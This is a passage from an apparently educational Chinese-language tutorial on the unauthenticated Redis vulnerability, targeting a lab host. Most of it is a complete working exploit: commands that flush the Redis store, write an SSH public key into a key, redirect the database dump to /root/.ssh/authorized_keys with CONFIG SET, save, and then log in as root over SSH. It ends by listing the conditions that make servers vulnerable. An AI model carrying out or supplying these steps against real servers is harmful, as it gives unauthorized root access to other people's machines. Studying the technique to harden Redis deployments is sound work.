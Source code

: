 可以看到 redis 服务器默认监听 0.0.0.0:6379，表示允许任意来源的连接 6379 端口，可以在另外一台机器使用 telnet 或者 nc 访问此端口，如果成功连接，可以输入 ping 看是否返回 pong。

    nc c4 6379
    ping
    +PONG


注意 Centos7 上默认启用了防火墙，会禁止访问某些端口，可以下面的方式禁用。

    sudo systemctl stop firewalld.service


4、客户端使用 ssh-keygen 生成公钥，不停按 enter，不出意外马上在`~/.ssh`生成了目录生成了公私钥文件

    ssh-keygen
    
    ll ~/.ssh
    ya@c2 ~$ ll .ssh
    -rw-------. 1 ya ya 1.7K 4月  14 03:00 id_rsa
    -rw-r--r--. 1 ya ya  387 4月  14 03:00 id_rsa.pub


5、将客户端公钥写入到文件 foo.txt 中以便后面写入到 redis，其实是生成一个头尾都包含两个空行的公钥文件

    (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt


6、先清空 Redis 存储所有的内容，将 foo.txt 文件内容写入到某个 key 中，这里为 crackit，随后调用 redis-cli 登录 redis 调用 config 命令设置文件 redis 的 dir 目录和把 rdb 文件的名字dbfilename 设置为 authorized\_keys。

    redis-cli -h 10.211.55.12 echo flushall
    cat foo.txt | redis-cli -h 10.211.55.12 -x set crackit
    
    // 登录 Redis
    redis-cli -h 10.211.55.12
    
    config set dir /root/.ssh
    
    config set dbfilename "authorized_keys"


7、执行 save 将 crackit 内容 落盘

    save


8、尝试登录

    ssh root@10.211.55.12


我们来看一下，服务器 10.211.55.12 机器上 /root/.ssh/authorized\_keys 的内容，可以看到 authorized\_keys 文件正是我们客户端机器的公钥文件

![](https://user-gold-cdn.xitu.io/2019/6/26/16b9134c2111e4f8)

利用这个漏洞有几个前提条件

*   Redis 绑定 0.0.0.0 允许所有来源的 TCP 连接，且没有设置密码 这完全是作死，因为就算不能入侵你的系统，也可以修改 Redis 中缓存的内容。不过 Redis 的设计者们一开始就认为不会有人这么做，因为把 Redis 放在一个信任的内网环境运行才是正道啊。
    
*   Redis 没有设置密码或密码过于简单 大部分开发都没有意识到 Redis 没有密码是一个大问题，要么是一个很简单的密码要么没有密码，Redis 的处理能力非常强，auth这种命令可以一秒钟处理几万次以上，简单的密码很容易被暴力破解
    